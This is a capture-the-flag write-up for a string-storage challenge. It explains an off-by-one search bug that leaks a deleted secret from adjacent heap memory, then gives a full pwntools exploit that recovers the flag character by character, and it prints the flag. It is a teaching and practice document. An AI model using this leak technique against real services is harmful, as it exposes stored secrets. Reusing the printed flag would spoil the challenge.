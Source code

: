 # String Storage

## Challenge

We are provided source for a program which allows users to:

- Add strings to a data structure.
- Search strings in the data structure.
- Remove strings from the data structure.

In the `main` function, the flag is added and removed during setup:

```c
int main() {
    stringArea = malloc(MAXENTRYSIZE * 16);
    
    add_entry("Test entry one\n");
    add_entry("Test entry two\n");
    add_entry("Test entry three\n");
    add_entry("Yet another test entry here!\n");

#ifdef PREPPUZZLE
    // add_entry("TEST\n");
    add_entry(CTFKEY);
    remove_entry(CTFKEY);

#endif
    
    while(1){
        process_user_input();
    }

    return 0;
}
```

We are tasked with recovering this `CTFKEY` value.

## Solution

As source is provided, it can be quite helpful to build the program with debugging symbols and macros
enabled.

Analyzing the program, statically or dynamically, we can see that all strings are added to the same
char buffer on the heap.
The strings are adjacent to eachother, with no null-bytes separating them.
A linked-list contains the start of each string and it's length, so the program can keep track of
where each individual item is.

When running the program, we can see that if we try to search for a string that we know exists, the
program likely returns "no match found".
We can also see the following comment in the source code:

```c
// loop through all the entries and print if there are any matches
//DEVELOLPER NOTE: this seems broken.....
```

By analyzing the source code, or by dynamically analyzing the program during a search, we can find
that the program is searching 1 character longer than expected.

```c
int entry_len = current->entry_size + 1;
```

This means that the program is checking 1 character into the next string.

Since the `CTFKEY` is preceeded by "Yet another test entry here!", we can start by searching this
string, with 1 char appended to it, which will be our guess.
We can keep searching with difference guesses until we find the correct one, which will be the first
character of the flag.

To move to the next character, we know that the flag has been deleted, so any strings we add will
start to overwrite it on the heap.
If we add a string of length 1, we can use it as the start of our next searches.
For example, we can add "a", then search with "aa", "ab"... until we find the next letter.
Because the length and content must match for a search, it does not matter if the letter we choose
collides with a letter in the setup, as the setup does not include strings of length 1.

For subsequent characters, we can continue to add length 1 strings and repeat the steps above.
The only condition is that we do not reuse a letter that was already used as a starting point.
This is to avoid collusions.

We can repeat this procedure until we have discovered all the characters.
This will be indicated when we run through our entire alphabet for an index without a match.
We will then know that we have leaked the entire secret value.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 10.0.2.43 --port 10001 a.out
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('a.out')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '10.0.2.43'
port = int(args.PORT or 10001)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

alphabet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789-_{}"
flag = ""

io = start()

for c in alphabet:
    test = f"Yet another test entry here!{c}"
    print(test)
    io.sendlineafter(b":\n", b"search")
    io.sendlineafter(b"?\n", test.encode())
    res = io.recvuntil(b'found')
    print(res)
    if b'\nno' not in res:
        flag += c
        break

dummy = 0x30

while True:
    io.sendlineafter(b":\n", b"add")
    io.sendlineafter(b"?\n", chr(dummy).encode())
    for c in alphabet:
        test = f"{chr(dummy)}{c}"
        print(test)
        io.sendlineafter(b":\n", b"search")
        io.sendlineafter(b"?\n", test.encode())
        res = io.recvuntil(b'found')
        if b'\nno' not in res:
            flag += c
            dummy += 1
            print("flag:" + flag)
            print("dummy:" + str(dummy))
            print(io.recvuntil(b'\t').decode())
            break
    else:
        break

io.interactive()
```

## Flag

```
electric-DISCOVER-students
```
